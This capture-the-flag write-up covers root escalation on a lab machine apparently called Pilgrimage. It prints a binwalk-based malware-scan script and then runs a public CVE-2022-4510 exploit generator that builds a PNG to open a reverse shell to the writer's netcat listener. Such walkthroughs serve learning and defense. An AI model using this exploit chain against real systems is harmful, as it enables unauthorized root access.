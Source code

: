 We can't sudo, we aren't vulnerable to dirtypipe, and none of the suid binaries are giving us root, so let's look at this malwarescan.sh file.

``` bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
	filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
	binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
		if [[ "$binout" == *"$banned"* ]]; then
			/usr/bin/rm "$filename"
			break
		fi
	done
done

```

For the rest of the process we'll want multiple SSH sessions with this server. In one we will want to be interacting and in the other we will want to be monitoring with [pspy](https://github.com/DominicBreuker/pspy).
`pspy` does not come with the target system so you will need to get it on the server by downloading it to the target system from a python http server.

With `pspy` running in one terminal, if we upload a file to the webapp we will see the malwarescan.sh run.  
Looking at the code above, we can see `inotifywait` is monitoring the `/var/www/pilgrimage.htb/shrunk/` directory for files being created and when a file is created there it follows the process below it.  

At first glance my first thought was, can I perform command injection using the `filename` variable where `/usr/bin/echo` is reading the file and the answer is no because it is reading the file itself, not the name. We know this because it is being piped to `tail -n 1` which reads the last line of a file and pipes that to `sed` which is using `regex` to look for any string containing the word `CREATE` and replacing it with nothingness.  

So with that out of the way, let's consider what else is in this process. `binwalk` is the next executable and if it detects a script or executable it will delete the file...but it is an executable so is there an exploit for it? Yes.  

[CVE-2022-4510](https://www.exploit-db.com/exploits/51249) is what we will need to escalate to root.  
This is a pretty straight forward exploit generator, we supply it with a `.png` file and the IP and port of our netcat listener.  
To avoid issues, `touch binwalk.png` before going forward.

``` bash
python3 binwalk.py binwalk.png 10.10.14.76 1337

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################

```